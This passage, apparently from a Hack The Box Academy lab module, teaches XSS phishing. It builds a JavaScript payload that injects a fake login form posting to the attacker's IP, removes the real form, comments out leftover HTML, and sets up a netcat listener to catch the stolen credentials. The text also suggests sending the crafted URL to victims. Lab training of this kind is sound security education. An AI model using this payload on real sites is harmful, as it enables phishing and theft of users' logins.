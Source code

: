 So, we can now use this id with the `remove()` function to remove the URL form:

```javascript
document.getElementById('urlform').remove();

```

Now, once we add this code to our previous JavaScript code (after the `document.write` function), we can use this new JavaScript code in our payload:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();

```

When we try to inject our updated JavaScript code, we see that the URL form is indeed no longer displayed:

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form_2.jpg)

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:

```html
...PAYLOAD... <!--

```

As we can see, this removes the remaining bit of original HTML code, and our payload should be ready. The page now looks like it legitimately requires a login:

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form_3.jpg)

We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form. You can try visiting the URL to ensure that it will display the login form as intended. Also try logging into the above login form and see what happens.

* * *

## Credential Stealing

Finally, we come to the part where we steal the login credentials when the victim attempts to log in on our injected login form. If you tried to log into the injected login form, you would probably get the error `This site can’t be reached`. This is because, as mentioned earlier, our HTML form is designed to send the login request to our IP, which should be listening for a connection. If we are not listening for a connection, we will get a `site can’t be reached` error.

So, let us start a simple `netcat` server and see what kind of request we get when someone attempts to log in through the form. To do so, we can start listening on port 80 in our Pwnbox, as follows:

```shell
sudo nc -lvnp 80
listening on [any] 80 ...

```
